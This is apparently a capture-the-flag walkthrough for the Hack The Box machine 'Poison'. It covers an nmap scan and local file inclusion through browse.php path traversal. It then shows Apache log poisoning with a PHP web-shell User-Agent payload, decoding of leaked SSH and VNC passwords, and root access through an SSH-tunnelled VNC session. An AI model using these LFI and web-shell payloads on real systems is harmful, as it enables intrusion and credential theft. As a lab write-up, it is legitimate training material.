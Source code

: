 
```
22/tcp open  ssh
80/tcp open  http
Enumerating open ports...
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-04 14:29 EDT
Nmap scan report for poison.htb (10.10.10.84)
Host is up (0.041s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
|_  256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
```

# foothold solution 1
- /browse.php?file=info.php
```
FreeBSD Poison 11.1-RELEASE FreeBSD 11.1-RELEASE #0 r321309: Fri Jul 21 02:08:28 UTC 2017 root@releng2.nyi.freebsd.org:/usr/obj/usr/src/sys/GENERIC amd64
```
- browse.php?file=listfiles.php
```
Array ( [0] => . [1] => .. [2] => browse.php [3] => index.php [4] => info.php [5] => ini.php [6] => listfiles.php [7] => phpinfo.php [8] => pwdbackup.txt ) 
```
let check pwdbackup.txt out, it looks juicy
```
This password is secure, it's encoded atleast 13 times.. what could go wrong really.. Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0 NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO
Ukd4RVdub3dPVU5uUFQwSwo= 
```
let decode it by using cyberchef using python. I create python script just for fun. and here is the decoded credential
```console
kurohat$ python3 b64decode.py 
b'Charix!2#4%6&8(0'
```
ssh charix:Charix!2#4%6&8(0 and run linpeas.sh
# foothold solution 2
After I rooted poison, I wounder why this box call `poison` when it didnt even involve poisoning of any type... So I when back to the first step and poke poison a bit more...

I know that there are many type of poisoning tachnic such as arp poisoning, log poisoning. It this case, it cant be arp poisoning since we are not hacking network. So it leave us to log poisoning. For log poisoning to work, we need to be able to read log. Let check if we have Local File Inclusion (LFI) on poison.


let visit `browse.php?file=../../../../../etc/passwd` hopefully it will give use `/etc/passwd`. Bingo !!! it works. so now let try to access apache log file for BSD. After goolging, I found out that appache log is locate at `/var/log/httpd-access.log`, so lets try to request for the log file. `browse.php?file=../../../../../var/log/httpd-access.log`

It works, as you can se here
```
[06/Oct/2020:21:40:03 +0200] "GET /browse.php?file=../../../../../etc/passwd HTTP/1.1" 200 1894 "-" 
"Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0" 
```
As you can see, User-agent is save in the log. The plan is we gonna poison the apache log by changing User-agent to something malicious such as, php code, which get be execute when we try to access the log file via LFI. Now open burp and put the following php code as User-agent. Read more about it [here](https://www.hackingarticles.in/apache-log-poisoning-through-lfi/)
```
<?php system($_GET['cmd']); ?>
```
now visit `browse.php?file=../../../../../var/log/httpd-access.log`
```
[06/Oct/2020:22:05:47 +0200] "GET /browse.php?file=info.php HTTP/1.1" 200 157 "-" "
Warning: system(): Cannot execute a blank command in /var/log/httpd-access.log on line 10
" 
```

okey it work, now let try to request things such as, ls -la , cat, by visiting `httpd-access.log&cmd=ls -a` 

so let get the **pwdbackup.txt** by visiting `/browse.php?file=../../../../../var/log/httpd-access.log&cmd=cat%20pwdbackup.txt`
```
06/Oct/2020:22:05:47 +0200] "GET /browse.php?file=info.php HTTP/1.1" 200 157 "-" "This password is secure, it's encoded atleast 13 times.. what could go wrong really.. Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0 NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO Ukd4RVdub3dPVU5uUFQwSwo=
```

# root
interesting files
```
/home/charix/user.txt
/home/charix/secret.zip
```
active ports
```
[+] Active Ports
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports
tcp4       0      0 localhost.smtp         *.*                    LISTEN
tcp4       0      0 *.http                 *.*                    LISTEN
tcp6       0      0 *.http                 *.*                    LISTEN
tcp4       0      0 *.ssh                  *.*                    LISTEN
tcp6       0      0 *.ssh                  *.*                    LISTEN
tcp4       0      0 localhost.5801         *.*                    LISTEN
tcp4       0      0 localhost.5901         *.*                    LISTEN
```
2 open ports, 5801 and 5901

so let do ssh port forwarding, I learn from ippsec that you can do something so call SSH "Konami Code" (SSH Control Sequences) link [here](https://www.sans.org/blog/using-the-ssh-konami-code-ssh-control-sequences/)


I use proxyfroxy to forward the web traffic to the victim 5801 and 5901 but it didnt work, so I end up searching for more clue, and then I found this link from [hacktricks](https://book.hacktricks.xyz/pentesting/pentesting-vnc). it seem like `VNC` defualt port are 5800, 5801, 5900, 5901. let verify by runing this command
```console
charix@Poison:~ % ps -aux | grep vnc
root     529   0.0  0.9  23620  8900 v0- I    20:17     0:00.03 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/
charix 15832   0.0  0.2  14828  2372  1  S+   22:54     0:00.00 grep vnc
```
BINGO, it is runing VNC, so let follow hacktricks and find out more what


so I assume that the secret.zip should be the a password or something, since I can open on the remote server, I use scp to copy it and crack it with `zip2john`, Luckly I tried it with charix's password and it works!! 
```console
bibo318@parrot:~/HTB/poison$ scp charix@poison.htb:/home/charix/secret.zip secret.zip
Password for charix@Poison:
secret.zip                                                               100%  166     4.1KB/s   00:00    
bibo318@parrot:~/HTB/poison$ unzip secret.zip 
Archive:  secret.zip
[secret.zip] secret password: 
 extracting: secret  
```
seem like it is a encrypted password, Hacktrick mentioned how to decrypt it by using https://github.com/jeroennijhof/vncpwd 
```console
bibo318@parrot:~/HTB/poison$ git clone https://github.com/jeroennijhof/vncpwd.git
Cloning into 'vncpwd'...
remote: Enumerating objects: 28, done.
remote: Total 28 (delta 0), reused 0 (delta 0), pack-reused 28
Unpacking objects: 100% (28/28), 22.13 KiB | 70.00 KiB/s, done.
bibo318@parrot:~/HTB/poison$ cd vncpwd/
bibo318@parrot:~/HTB/poison/vncpwd$ make
gcc -Wall -g -o vncpwd vncpwd.c d3des.c
bibo318@parrot:~/HTB/poison/vncpwd$ ls
d3des.c  d3des.h  LICENSE  Makefile  README  vncpwd  vncpwd.c
bibo318@parrot:~/HTB/poison/vncpwd$ ./vncpwd ../secret
Password: VNCP@$$!
```
we will use proxychain to pass our vnc traffic to posion:5901. let start by checking proxychain configureation
```console
bibo318@parrot:~/HTB/poison/vncpwd$ tail /etc/proxychains.conf
#
#       proxy types: http, socks4, socks5
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks4 	127.0.0.1 9050
```
defualt at `9050` okey, back to charix ssh. we change port forwarding to 9050 instead. now let use `vncviewer` to gain root
```console
bibo318@parrot:~/HTB/poison/vncpwd$ proxychains vncviewer 127.0.0.1:5901
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:9050-<><>-127.0.0.1:5901-<><>-OK
Connected to RFB server, using protocol version 3.8
Enabling TightVNC protocol extensions
Performing standard VNC authentication
Password: 
Authentication successful
Desktop name "root's X desktop (Poison:1)"
VNC server default format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Using default colormap which is TrueColor.  Pixel format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Same machine: preferring raw encoding
```

Boom we rooted the box!